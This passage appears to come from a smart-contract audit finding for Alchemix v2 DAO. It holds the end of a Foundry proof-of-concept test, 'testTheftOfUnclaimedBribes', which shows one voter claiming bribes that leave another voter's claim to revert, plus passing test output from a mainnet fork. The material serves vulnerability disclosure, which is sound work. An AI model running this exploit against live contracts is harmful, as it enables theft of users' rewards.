 ```solidity
        // But he the system gives him the full reward amount
        assertEq(IBribe(bribeAddress).earned(bal, bobTokenId), rewardAmount);


        // However, bribe contract will not be able to conver all earned rewards now
        uint256 aliceEarned = IBribe(bribeAddress).earned(bal, aliceTokenId);
        uint256 bobEarned = IBribe(bribeAddress).earned(bal, bobTokenId);
        assertGe(
            aliceEarned + bobEarned,
            IERC20(bal).balanceOf(bribeAddress)
        );

        // If Bob claim bribe before Alice, Alice will not be able to claim his bribe
        hevm.prank(bob);
        voter.claimBribes(bribes, tokens, bobTokenId);
        // when he try the call will revert with
        hevm.expectRevert(abi.encodePacked("ERC20: transfer amount exceeds balance"));
        hevm.prank(alice);
        voter.claimBribes(bribes, tokens, aliceTokenId);
    }
}
```

#### Test Output

```bash
alchemix-v2-dao main* 1m17s
❯ make test_file
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/*** --match-path src/test/VotingPoC.t.sol -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/VotingPoC.t.sol:VotingPoCTest
[PASS] testTheftOfUnclaimedBribes() (gas: 5667267)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 65.12s (52.86s CPU time)

Ran 1 test suite in 66.38s (65.12s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```